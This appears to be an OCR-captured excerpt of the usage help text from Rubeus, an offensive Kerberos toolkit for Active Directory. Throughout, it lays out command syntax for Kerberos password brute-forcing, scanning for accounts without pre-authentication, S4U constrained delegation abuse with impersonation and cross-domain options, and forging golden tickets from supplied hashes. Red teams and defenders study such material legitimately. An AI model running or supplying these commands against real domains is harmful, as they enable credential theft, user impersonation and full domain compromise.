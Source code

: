 ```
    Retrieve a service ticket for one or more SPNs, optionally saving or applying the ticket:
        Rubeus.exe asktgs </ticket:BASE64 | /ticket:FILE.KIRBI> </service:SPN1,SPN2,...> [/enctype:DES|RC4|AES128|AES256] [/dc:DOMAIN_CONTROLLER] [/outfile:FILENAME] [/ptt] [/nowrap] [/enterprise] [/opsec] </tgs:BASE64 | /tgs:FILE.KIRBI> [/targetdomain] [/u2u] [/targetuser] [/servicekey:PASSWORDHASH] [/asrepkey:ASREPKEY] [/proxyurl:https://KDC_PROXY/kdcproxy]

    Retrieve a service ticket using the Kerberos Key List Request options:
        Rubeus.exe asktgs /keyList /service:KRBTGT_SPN </ticket:BASE64 | /ticket:FILE.KIRBI> [/enctype:DES|RC4|AES128|AES256] [/dc:DOMAIN_CONTROLLER] [/outfile:FILENAME] [/ptt] [/nowrap] [/enterprise] [/opsec] </tgs:BASE64 | /tgs:FILE.KIRBI> [/targetdomain] [/u2u] [/targetuser] [/servicekey:PASSWORDHASH] [/asrepkey:ASREPKEY] [/proxyurl:https://KDC_PROXY/kdcproxy]

    Renew a TGT, optionally applying the ticket, saving it, or auto-renewing the ticket up to its renew-till limit:
        Rubeus.exe renew </ticket:BASE64 | /ticket:FILE.KIRBI> [/dc:DOMAIN_CONTROLLER] [/outfile:FILENAME] [/ptt] [/autorenew] [/nowrap]

    Perform a Kerberos-based password bruteforcing attack:
        Rubeus.exe brute </password:PASSWORD | /passwords:PASSWORDS_FILE> [/user:USER | /users:USERS_FILE] [/domain:DOMAIN] [/creduser:DOMAIN\\USER & /credpassword:PASSWORD] [/ou:ORGANIZATION_UNIT] [/dc:DOMAIN_CONTROLLER] [/outfile:RESULT_PASSWORD_FILE] [/noticket] [/verbose] [/nowrap]

    Perform a scan for account that do not require pre-authentication:
        Rubeus.exe preauthscan /users:C:\temp\users.txt [/domain:DOMAIN] [/dc:DOMAIN_CONTROLLER] [/proxyurl:https://KDC_PROXY/kdcproxy]


 Constrained delegation abuse:

    Perform S4U constrained delegation abuse:
        Rubeus.exe s4u </ticket:BASE64 | /ticket:FILE.KIRBI> </impersonateuser:USER | /tgs:BASE64 | /tgs:FILE.KIRBI> /msdsspn:SERVICE/SERVER [/altservice:SERVICE] [/dc:DOMAIN_CONTROLLER] [/outfile:FILENAME] [/ptt] [/nowrap] [/opsec] [/self] [/proxyurl:https://KDC_PROXY/kdcproxy]
        Rubeus.exe s4u /user:USER </rc4:HASH | /aes256:HASH> [/domain:DOMAIN] </impersonateuser:USER | /tgs:BASE64 | /tgs:FILE.KIRBI> /msdsspn:SERVICE/SERVER [/altservice:SERVICE] [/dc:DOMAIN_CONTROLLER] [/outfile:FILENAME] [/ptt] [/nowrap] [/opsec] [/self] [/bronzebit] [/nopac] [/proxyurl:https://KDC_PROXY/kdcproxy]

    Perform S4U constrained delegation abuse across domains:
        Rubeus.exe s4u /user:USER </rc4:HASH | /aes256:HASH> [/domain:DOMAIN] </impersonateuser:USER | /tgs:BASE64 | /tgs:FILE.KIRBI> /msdsspn:SERVICE/SERVER /targetdomain:DOMAIN.LOCAL /targetdc:DC.DOMAIN.LOCAL [/altservice:SERVICE] [/dc:DOMAIN_CONTROLLER] [/nowrap] [/self] [/nopac]


 Ticket Forgery:

    Forge a golden ticket using LDAP to gather the relevent information:
        Rubeus.exe golden </des:HASH | /rc4:HASH | /aes128:HASH | /aes256:HASH> </user:USERNAME> /ldap [/printcmd] [outfile:FILENAME] [/ptt]

    Forge a golden ticket using LDAP to gather the relevent information but explicitly overriding some values:
        Rubeus.exe golden </des:HASH | /rc4:HASH | /aes128:HASH | /aes256:HASH> </user:USERNAME> /ldap [/dc:DOMAIN_CONTROLLER] [/domain:DOMAIN] [/netbios:NETBIOS_DOMAIN] [/sid:DOMAIN_SID] [/dispalyname:PAC_FULL_NAME] [/badpwdcount:INTEGER] [/flags:TICKET_FLAGS] [/uac:UAC_FLAGS] [/groups:GROUP_IDS] [/pgid:PRIMARY_GID] [/homedir:HOMEDIR] [/homedrive:HOMEDRIVE] [/id:USER_ID] [/logofftime:LOGOFF_TIMESTAMP] [/lastlogon:LOGON_TIMESTAMP] [/logoncount:INTEGER] [/passlastset:PASSWORD_CHANGE_TIMESTAMP] [/maxpassage:RELATIVE_TO_PASSLASTSET] [/minpassage:RELATIVE_TO_PASSLASTSET] [/profilepath:PROFILE_PATH] [/scriptpath:LOGON_SCRIPT_PATH] [/sids:EXTRA_SIDS] [[/resourcegroupsid:RESOURCEGROUPS_SID] [/resourcegroups:GROUP_IDS]] [/authtime:AUTH_TIMESTAMP] [/starttime:Start_TIMESTAMP] [/endtime:RELATIVE_TO_STARTTIME] [/renewtill:RELATIVE_TO_STARTTIME] [/rangeend:RELATIVE_TO_STARTTIME] [/rangeinterval:RELATIVE_INTERVAL] [/oldpac] [/extendedupndns] [/printcmd] [outfile:FILENAME] [/ptt]

```